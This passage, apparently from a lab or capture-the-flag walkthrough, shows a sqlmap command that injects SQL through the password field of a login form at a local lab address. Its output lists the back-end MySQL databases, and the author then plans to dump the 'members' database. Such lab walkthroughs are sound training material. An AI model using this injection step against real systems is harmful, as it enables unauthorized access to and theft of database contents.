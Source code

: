 First up is the --dbs switch, which will list any databases (mysql, information_schema, etc.). I've also specified the -p (parameter) argument. We know which one it is; this will let SQLMap skip automated parameter checking.

```bash
root@kali:~/Desktop/k4# sqlmap -u "http://10.0.2.14/checklogin.php" \
  --data "myusername=admin&mypassword=test&Submit=Login" \
  --method POST -p "mypassword" --dbs
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.3#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

...
sqlmap resumed the following injection point(s) from stored session:
...
[16:54:06] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS: MySQL >= 5.0.12
[16:54:06] [INFO] fetching database names
[16:54:06] [INFO] fetching number of databases
[16:54:07] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[16:54:07] [INFO] retrieved: 
sqlmap got a 302 redirect to 'http://10.0.2.14:80/login_success.php?username=admin'. Do you want to follow? [Y/n] n
3
[16:54:09] [INFO] retrieved: information_schema
[16:54:10] [INFO] retrieved: members
[16:54:10] [INFO] retrieved: mysql
available databases [3]:
[*] information_schema
[*] members
[*] mysql

[16:54:10] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.0.2.14'

[*] ending @ 16:54:10 /2019-02-02/
```

## Drawing Blood

Once again, I cut any superfluous output. One thing to keep in mind, unless the situation calls for it, we don't want to follow any redirects from the login form. If the redirect target isn't SQL injectable with the same parameters, we'll lose our (unintended) injection point and SQLMap won't be able to continue.

Now we know the available databases. I usually don't come across much in 'information_schema', but members is a non-standard database. Let's dump it.
